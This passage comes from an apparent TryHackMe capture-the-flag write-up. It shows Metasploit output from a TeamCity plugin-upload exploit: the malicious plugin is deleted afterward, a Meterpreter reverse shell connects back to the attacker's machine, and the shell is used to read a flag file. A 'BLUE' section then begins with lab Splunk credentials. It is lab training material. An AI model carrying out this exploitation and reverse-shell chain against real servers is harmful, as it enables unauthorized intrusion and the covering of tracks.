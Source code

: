 ```console
[*] Uploading plugin: Bi7yWplM
[*] Sending stage (57971 bytes) to 10.10.190.86
[*] Deleting the plugin...
[+] Deleted /opt/teamcity/TeamCity/work/Catalina/localhost/ROOT/TC_147512_Bi7yWplM
[+] Deleted /home/ubuntu/.BuildServer/system/caches/plugins.unpacked/Bi7yWplM
[*] Meterpreter session 1 opened (10.11.75.248:53 -> 10.10.190.86:47034) at 2024-10-05 15:43:10 +0200
...

meterpreter > getuid
Server username: ubuntu
```

The flag can be found inside `ubuntu`'s home directory.

```console
meterpreter > cd /home/ubuntu
meterpreter > ls 
Listing: /home/ubuntu
=====================

Mode              Size  Type  Last modified              Name
----              ----  ----  -------------              ----
...
100666/rw-rw-rw-  4829  fil   2024-07-02 16:55:04 +0200  config.log
100666/rw-rw-rw-  38    fil   2024-07-02 12:05:47 +0200  flag.txt
meterpreter > cat flag.txt
THM{[REDACTED]}
```

## BLUE
### Flag 1

> What is the name of the backdoor user which was created on the server after exploitation?

We are given some instructions on this one.

> **Lab Connection**
>
> Before moving forward, deploy the machine. When you deploy the machine, it will be assigned an IP address: 10.10.80.34. The Splunk instance will  be accessible in about 5 minutes and can be accessed at 10.10.80.34:8000 using the credentials mentioned below:
> 
> **Username:** splunk
> 
> **Password:** analyst123
{: .prompt-info }

Navigating to `port 8000`, we're automatically logged in as the user `admin` which I thought was weird because we had to login as `splunk`. Anyway...

![](<Pasted image 20241005160101.png>){: w="700" h="300" .center }

